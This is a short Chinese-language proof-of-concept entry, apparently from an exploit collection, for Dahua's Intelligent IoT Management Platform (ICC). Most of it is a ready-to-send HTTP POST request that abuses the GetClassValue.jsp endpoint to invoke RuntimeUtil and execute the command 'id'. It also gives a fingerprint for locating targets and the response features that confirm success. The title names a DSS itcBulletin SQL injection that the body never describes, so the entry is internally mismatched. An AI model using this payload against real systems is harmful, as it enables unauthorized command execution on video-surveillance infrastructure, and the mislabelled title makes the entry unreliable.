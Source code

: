 ﻿# 大华 DSS itcBulletin SQL 注入漏洞

> 更新时间：2025-01-03

> 漏洞编号：

> 漏洞说明：大华智能物联综合管理平台(ICC) 存在远程命令执行漏洞

> 漏洞特征：body="客户端会小于800"

> 验证脚本：HTTP

```
POST /evo-apigw/admin/API/Developer/GetClassValue.jsp HTTP/1.1
Content-Type: application/json
Content-Length: 121

{
    "data": {
        "clazzName": "com.dahua.admin.util.RuntimeUtil",
        "methodName": "syncexecReturnInputStream",
        "fieldName": ["id"]
    }
}

```

> 响应代码特征：200

> 响应内容特征：Success

> 上传文件定位：


> 验证文件来源：大华 智能物联综合管理平台(ICC) GetClassValue存在 远程命令执行漏洞
